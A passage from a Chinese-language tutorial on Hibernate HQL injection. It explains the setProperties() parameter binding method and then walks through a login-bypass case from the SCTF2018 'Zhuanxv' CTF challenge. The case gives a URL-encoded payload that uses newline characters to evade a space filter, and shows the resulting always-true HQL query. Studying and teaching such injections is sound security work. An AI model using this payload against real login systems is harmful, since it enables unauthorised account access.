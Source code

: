  

**setProperties()方法：** 

setProperties()方法将命名参数与一个对象的属性值绑定在一起

```java
Customer customer=new Customer(); 
customer.setName(“pansl”); 
customer.setAge(80); 
Query query=session.createQuery(“from Customer c where c.name=:name and c.age=:age ”); 
query.setProperties(customer); 
```

 setProperties()方法会自动将customer对象实例的属性值匹配到命名参数上，但是要求命名参数名称必须要与实体对象相应的属性同名。

## 案例1-登录绕过

### where语句注入

SCTF2018 : Zhuanxv这道题中

反编译后class看到hql语句

![img](resource/Hibernate-HQL注入.assets/1545399-20191010210945030-347794294.png)

前面审计出条件：用户名过滤空格与等号 所以注入语句用换行符 %0a

payload:

```
admin%27%0Aor%0A%271%27%3E%270&#39;%0Aor%0Aname%0Alike%0A&#39;admin&amp;user.password=1
```

拼接后的语句：

```sql
from User where name = &#39;admin&#39; or &#39;1&#39;&gt;&#39;0&#39; or name like &#39;admin&amp;user.password=1&#39; and password = &#39;password&#39;
```
